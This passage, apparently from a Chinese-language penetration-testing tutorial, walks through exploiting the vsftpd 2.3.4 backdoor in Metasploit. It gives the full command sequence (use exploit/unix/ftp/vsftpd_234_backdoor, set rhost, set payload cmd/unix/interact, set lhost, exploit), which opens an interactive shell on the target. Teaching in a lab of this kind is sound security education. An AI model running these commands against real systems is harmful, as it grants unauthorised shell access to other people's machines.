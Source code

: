 ![如何做...](img/image_04_029.jpg)

1.  我们将利用`vsftpd`漏洞。在运行`msfconsole`的终端中输入以下内容：

```
      search vsftpd
      use exploit/unix/ftp/vsftpd_234_backdoor
      set rhost <Target IP Address>
      set payload cmd/unix/interact
      set lhost <Your IP Address>
      exploit

```

输出将如下截图所示：

![如何做...](img/image_04_030.jpg)
